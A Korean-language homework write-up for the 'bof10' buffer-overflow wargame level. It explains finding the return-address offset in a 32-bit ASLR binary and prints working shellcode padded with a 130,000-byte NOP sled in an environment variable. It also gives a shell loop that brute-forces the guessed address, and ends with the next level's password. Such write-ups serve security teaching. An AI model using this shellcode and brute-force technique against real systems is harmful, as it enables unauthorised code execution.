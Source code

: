 # GBC_security HW9  
## bof10 write-up  

bof10은 ASLR이 활성화되어있고, 32비트용 프로그램임을 확인할 수 있었다.  

![img](img/10_source.PNG)  
보면 8번과 아주 유사하다.  
따라서 8번처럼 구하되, ASLR이 활성화되어있다는 차이만 있다.  

8번처럼 buf의 주솟값과 vuln return address의 주솟값의 차이를 구한다.  

32비트용 프로그램이기때문에, vuln에서 $esp로 주솟값을 확인한다.  
0xffd3771c가 나온다.  

strcpy에서 0xffd37708에 값을 cpy한다.  
0xffd37708가 buf의 address이다.  

즉, 거리는 p (0xffd3771c - 0xffd37708)  
![img](img/10_leng.PNG)  
0x14(20)이다.  

buf size가 8이기에, 환경변수에 쉘코드를 삽입해야한다.  

bof8처럼 넣어준다.  
```  
export SHELLCODE=`python -c "print '\xeb\x12\x31\xc9\x5e\x56\x5f\xb1\x15\x8a\x06\xfe\xc8\x88\x06\x46\xe2\xf7\xff\xe7\xe8\xe9\xff\xff\xff\x32\xc1\x32\xca\x52\x69\x30\x74\x69\x01\x69\x30\x63\x6a\x6f\x8a\xe4\xb1\x0c\xce\x81'"`
```  

하지만, ASLR때문에, SHELLCODE의 주솟값이 실행마다 계속 바뀐다.  
bof8은 바뀌지않았기에, SHELLCODE의 거리만큼 'x'를 채우고, SHELLCODE의 주솟값을 주었지만, 이제는 통하지않는다.  

그래서 NOP를 사용한다.  

bof10을 계속 실행해보면, SHELLCODE의 주솟값이 계속 바뀌는데, 0xff8_____부터 0xfff______까지 바뀐다. 

그렇다면 우리는 0xfff______ - 0xff8______사이에서 대충 적당한 부분의 주소를 선택하고, 그 값을SHELLCODE의 주솟값이라 생각한다.(가정한다)  

그리고 SHELLCODE에 NOP코드를 많이 넣어, 정확하지 않더라도, NOP코드로 인해 SHELLCODE가 실행되게 만든다.  

지금의 Ubuntu 환경에서는 NOP코드를 13만개까지 삽입할 수 있다고 하기에, 13만으로 넣고 SHELLCODE를 다시 작성한다.  

**13만개의 NOP가 들어간 쉘코드:**  
```  
export SHELLCODE=`python -c "print '\x90'*130000 + '\xeb\x12\x31\xc9\x5e\x56\x5f\xb1\x15\x8a\x06\xfe\xc8\x88\x06\x46\xe2\xf7\xff\xe7\xe8\xe9\xff\xff\xff\x32\xc1\x32\xca\x52\x69\x30\x74\x69\x01\x69\x30\x63\x6a\x6f\x8a\xe4\xb1\x0c\xce\x81'"`  
```  

자 이제, 거리가 20인 것을 아니까 'x'*20만큼의 거리를 채우고 그 후 적당한 쉘 코드의 주솟값을 준다. 여기선 0xffc64c36에 있다고 가정한다.  

실행을 하면서 주솟값이 계속 바뀌므로, 0xffc64c36 전에 있을수도 후에 있을수도 있지만, while문으로 계속 실행해주며 찍어보자.  

while : ; do  ./bof10 `python -c "print 'a'*20 + '\x36\x4c\xc6\xff'"` ; done  

이 while문으로 반복 명령을 통해 비밀번호를 알 수 있게 되었다.  
![img](img/10_result.PNG)  

> bof11 passwd = fe091b4c

